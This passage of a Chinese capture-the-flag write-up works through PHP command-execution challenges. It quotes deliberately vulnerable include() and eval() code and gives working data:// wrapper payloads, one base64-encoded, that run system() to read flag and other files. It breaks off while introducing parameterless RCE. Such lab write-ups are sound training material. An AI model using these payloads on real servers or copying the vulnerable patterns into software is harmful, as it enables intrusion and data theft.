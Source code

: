 同样使用data协议。

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs=
```

## web39~data协议

```php
<?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
} 
```

payload:

```
?c=data://text/plain,<?php system('cat *');?>
```

> data://text/plain, 这样就相当于执行了php语句 .php 因为前面的php语句已经闭合了，所以后面的.php会被当成html页面直接显示在页面上，起不到什么 作用

## web40~无参数读文件

```php
<?php

if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}

```

过滤了引号、$、冒号，还不能用伪协议。

一般括号里参数都要用引号，这里学习一下无参数RCE(remote command/code execute)。

无参数的意思可以是a()、a(b())或a(b(c()))，但不能是a('b')或a('b','c')，不能带参数。

